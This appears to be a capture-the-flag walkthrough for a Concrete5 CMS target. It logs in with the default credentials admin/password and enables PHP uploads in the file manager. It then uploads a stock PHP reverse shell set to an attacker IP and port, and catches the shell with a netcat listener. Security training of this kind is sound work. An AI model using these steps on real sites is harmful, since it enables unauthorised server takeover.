 ### 🔍 Application Analysis
1. **Navigate to:** `http://<TARGET_IP>/app`
2. **Observation:** Login interface discovered
3. **CMS Identification:** Concrete5 CMS detected

### 🔐 Credential Discovery
**🎯 Authentication Bypass:**
- **Username:** `admin`
- **Password:** `password`

**💡 Method:** Common default credential testing

### 🎛️ Admin Panel Access
**🔑 Successful login** provides access to Concrete5 file manager interface

## 📤 File Upload Exploitation

### 🚫 Initial Upload Restrictions
**❌ Problem:** PHP file uploads blocked by default

### 🔧 Bypass Technique
**✅ Solution:** Modify allowed file extensions in Concrete5

#### 📋 Steps:
1. **Access** file manager settings
2. **Navigate** to file extension configuration
3. **Add** `php` to allowed extensions list
4. **Save** configuration changes

### 🐚 Reverse Shell Upload
```bash
# Create PHP reverse shell
cp /usr/share/webshells/php/php-reverse-shell.php shell.php

# Edit IP and port
nano shell.php
# Set $ip = 'YOUR_IP';
# Set $port = YOUR_PORT;
```

### 🎧 Listener Setup
```bash
# Start netcat listener
nc -lnvp <PORT>
```

### 🚀 Shell Execution
1. **Upload** `shell.php` through file manager
2. **Navigate** to uploaded file location
3. **Execute** by accessing the file URL
4. **Receive** reverse shell connection
